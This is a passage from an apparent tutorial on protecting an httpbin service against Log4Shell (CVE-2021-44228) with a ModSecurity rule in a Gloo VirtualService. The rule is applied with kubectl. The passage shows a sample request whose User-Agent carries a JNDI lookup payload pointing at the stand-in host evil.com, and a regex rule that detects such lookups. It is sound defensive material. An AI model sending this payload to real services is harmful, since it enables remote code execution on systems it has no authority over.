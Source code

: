 ```
  "form": {},
  "headers": {
    "Accept": "*/*",
    "Host": "34.138.145.188",
    "User-Agent": "${jndi:ldap://evil.com/x}",    <<< THIS IS BAD!!!
    ...
  }
...
}
```

## Protect the vulnerable service

Now we will protect the httpbin service by applying a modified virtual service to the cluster, with a ModSecurity rule added that blocks input strings containing potential Log4Shell attacks.

```bash
cat <<'EOF' | envsubst | kubectl apply -f -
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - "httpbin.solo.io"
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
    options:
      waf:
        customInterventionMessage: 'Log4Shell malicious payload'
        ruleSets:
        - ruleStr: |
            SecRuleEngine On
            SecRequestBodyAccess On
            SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
              "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
              "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

Let's examine briefly what this rule does. Line 1 identifies ModSec variables we want to match, entities like the `REQUEST_BODY` and `REQUEST_HEADERS`. These are entities where the contents might be logged by log4j when the request is received, so we want to be sure to protect them.

